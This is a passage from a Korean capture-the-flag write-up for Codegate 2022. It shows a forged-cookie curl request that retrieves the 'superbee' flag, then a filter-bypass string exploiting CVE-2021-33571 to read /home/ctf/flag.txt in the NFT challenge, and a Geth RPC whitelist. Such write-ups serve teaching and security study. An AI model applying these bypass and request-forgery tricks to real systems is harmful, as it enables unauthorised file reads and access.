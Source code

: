 이제 Decrypt하면 authkey 값인 `Th15_sup3r_s3cr3t_K3y_N3v3r_B3_L34k3d` 이것을 얻을 수 있고 아래처럼 요청을 보내면 FLAG를 획득할 수 있다.

```
$ curl http://3.39.49.174:30001/main/index -v -X GET --cookie "f5b338d6bca36d47ee04d93d08c57861=e52f118374179d24fa20ebcceb95c2af"
Note: Unnecessary use of -X or --request, GET is already inferred.
*   Trying 3.39.49.174:30001...
* TCP_NODELAY set
* Connected to 3.39.49.174 (3.39.49.174) port 30001 (#0)
> GET /main/index HTTP/1.1
> Host: 3.39.49.174:30001
> User-Agent: curl/7.68.0
> Accept: */*
> Cookie: f5b338d6bca36d47ee04d93d08c57861=e52f118374179d24fa20ebcceb95c2af
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Length: 170
< Content-Type: text/html; charset=utf-8
< Date: Sat, 26 Feb 2022 12:46:49 GMT
<
<html>
    <head>
        <title>superbee</title>
    </head>
    <body>
        <h3>Index</h3>
        codegate2022{d9adbe86f4ecc93944e77183e1dc6342}
    </body>
* Connection #0 to host 3.39.49.174 left intact
</html>%
```

FLAG : `codegate2022{d9adbe86f4ecc93944e77183e1dc6342}`

## NFT

flag.txt를 읽어오기 위해서는 nfts 페이지에서 get_response를 통해서 가져와야하는데,
필터링을 우회해야한다. CVE-2021-33571와 몇가지 트릭을 통해서 컨트랙트와 django의 필터링을 모두피하는 문자열을 만들수있다.
`127.000.000.001/account/storages//home/ctf/flag.txt`

Geth RPC에 화이트리스트가 걸려있다.

```jsx
var whitelist = [
    "eth_blockNumber",
    "eth_call",
    "eth_chainId",
    "eth_estimateGas",
    "eth_gasPrice",
    "eth_getBalance",
    "eth_getCode",
    "eth_getTransactionByHash",
    "eth_getTransactionCount",
    "eth_getTransactionReceipt",
    "eth_sendTransaction",
    "eth_sendRawTransaction",
    "net_version",
    "rpc_modules",
    "web3_clientVersion"
]
```
